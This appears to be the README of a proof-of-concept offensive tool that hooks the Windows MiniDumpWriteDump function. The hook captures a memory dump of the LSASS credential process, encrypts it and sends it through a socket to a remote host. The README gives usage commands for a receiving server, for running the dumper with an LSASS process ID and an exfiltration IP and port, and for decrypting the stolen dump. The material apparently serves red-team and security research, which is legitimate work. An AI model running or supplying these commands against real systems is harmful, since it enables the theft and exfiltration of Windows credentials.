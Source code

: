 # MiniDumpWriteDumpPoC
MiniDumpWriteDump behavior modification hook

Read the full article in our blog: [Adepts Of 0xCC: Hooks On Hoot Off](https://adepts.of0x.cc/hookson-hootoff/)

This is a function hook that allows to access the buffer generated by MiniDumpWriteDump before it gets to disk.

Once accessed, it will encrypt the buffer and send it through a socket to a given host. 


## Compilation

A full VS solution is provided. Just compile it. 


## Usage

First, set up the server to listen on the receiving host: 

```
python3 serv.py <PORT>

    python3 serv.py 1234
```


```
.\minidumppoc.exe <LSASS_PID> <WRITE_TO_FILE 0|1> <EXFIL 0|1> [<HOST> <PORT>] [<EXPORT_PATH>]

    minidump.exe 696 1 1 '192.168.1.10' 1234 "c:\test.dmp"
```

Once the whole file is received, close the server, and use the dummy decryptor: 

```
python3 dec.py woot.dmp woot_decrypted.dmp 0xb0
```


